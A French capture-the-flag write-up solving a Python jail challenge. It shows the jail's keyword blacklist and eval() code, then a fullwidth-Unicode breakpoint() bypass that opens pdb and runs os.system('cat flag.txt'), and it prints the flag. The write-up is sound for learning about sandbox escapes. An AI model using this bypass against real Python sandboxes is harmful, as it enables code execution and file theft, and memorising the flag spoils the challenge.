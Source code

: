 
--- 

# Description du challenge : 

## Pyjail revenge

### 150

Conçu par Oblivios

Fini les payloads classiques, montre moi vraiment ce que tu peux faire pour contourner ça !

Le flag est situé dans `flag.txt`

`Connexion: nc intro.ctfrei.fr 4452`

--- 

> On a un fichier Python 

```python
#!/usr/local/bin/python3

  

blacklist = ["open", "os", "+", "{", "}", "help", "system", "subprocess", \

"lower", "import", "eval", "exec", "sys", "breakpoint", "getattr", \

"builtins","popen", "read", "input", "class", "chr", "ord", "flag", \

"dict", "globals", "update", "locals"]

  

def check_code(code):

if any([x in code for x in blacklist]):

return False

return True

  

def main():

# Je ban autant de mots pour vous

# forcer à trouver LE trick à utiliser

code = input(">>> ")

if check_code(code):

eval(code)

else:

print("Eh t'as utilisé un truc interdit là !")

  

if __name__ == "__main__":

main()
```

> Apres avoir essaye plein de commande pour contourner les mots interdits : 

```
Exemple : (lambda f: (f()._module.setitem(''.join([b'o', b'p', b'e', b'n']).decode(), None), f()._module[''.join([b'o', b'p', b'e', b'n']).decode()](''.join([b'f', b'l', b'a', b'g', b'.', b't', b'x', b't']).decode()).iter().next()) if len(f) > 0 else None)([x for x in (type([]).base.mro[1:]) if x._name_ == "catch_warnings"])
```

> J'étais dans une impasse. J'ai chercher sur internet des W-U de challenges Pyjail et je suis tombé sur ca : https://jbnrz.com.cn/index.php/2024/08/15/pyjail/

> J'ai compris qu'on pouvait bypass avec des commandes donc j'ai essayé : breakpoint() sauf que c'est bannit

> J'ai aussi compris que je pouvais utiliser un encodage différent pour bypass : 

> ｂｒｅａｋｐｏｉｎｔ()

```shell
╭─romso@romso94 ~/Téléchargements
╰─➤  nc intro.ctfrei.fr 4452                                                      130 ↵
>>> ｂｒｅａｋｐｏｉｎｔ()
--Return--
> <string>(1)<module>()->None
(Pdb) help

Documented commands (type help <topic>):
========================================
EOF    c          d        h         list      q        rv       undisplay
a      cl         debug    help      ll        quit     s        unt
alias  clear      disable  ignore    longlist  r        source   until
args   commands   display  interact  n         restart  step     up
b      condition  down     j         next      return   tbreak   w
break  cont       enable   jump      p         retval   u        whatis
bt     continue   exit     l         pp        run      unalias  where

Miscellaneous help topics:
==========================
exec  pdb

(Pdb)
```

> Je vois que j'ai accès à **exec** alors je mets génère un payload : 

```python
exec("__import__('os').system('cat flag.txt')")
```

# Résultat : 

```shell
╭─romso@romso94 ~/Téléchargements
╰─➤  nc intro.ctfrei.fr 4452                                                      130 ↵
>>> ｂｒｅａｋｐｏｉｎｔ()
--Return--
> <string>(1)<module>()->None
(Pdb) exec("__import__('os').system('cat flag.txt')")
CTFREI{d4mn_u_g0t_m3_pff}(Pdb)
```

> Flag  : CTFREI{d4mn_u_g0t_m3_pff}